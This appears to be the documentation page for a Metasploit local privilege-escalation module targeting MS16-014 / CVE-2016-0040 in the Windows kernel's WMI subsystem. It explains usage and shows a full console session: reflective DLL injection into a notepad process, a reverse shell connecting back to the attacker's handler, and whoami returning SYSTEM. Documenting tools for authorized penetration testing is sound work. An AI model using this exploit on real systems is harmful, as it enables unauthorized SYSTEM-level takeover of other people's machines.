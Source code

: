 ## Intro

This module exploits a uninitialized stack variable vulnerability present in the WMI subsystem  of `ntoskrnl`.  The vulnerability is described by MS16-014 and CVE-2016-0040.  The module allows the user to elevate privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the `payload` and `session` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 0...
msf exploit(handler) > use exploits/windows/local/ms16_014_wmi_recv_notif
msf exploit(ms16_014_wmi_recv_notif) > set session 0
session => 0
msf exploit(ms16_014_wmi_recv_notif) > exploit

[*] Started reverse TCP handler on 172.16.38.170:4444 
[*] Launching notepad to host the exploit...
[+] Process 3948 launched.
[*] Reflectively injecting the exploit DLL into 3948...
[*] Injecting exploit into 3948...
[*] Exploit injected. Injecting payload into 3948...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (172.16.38.170:4444 -> 172.16.38.129:49695) at 2018-03-07 08:27:57 -0800

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\whoami
whoami
SYSTEM
```
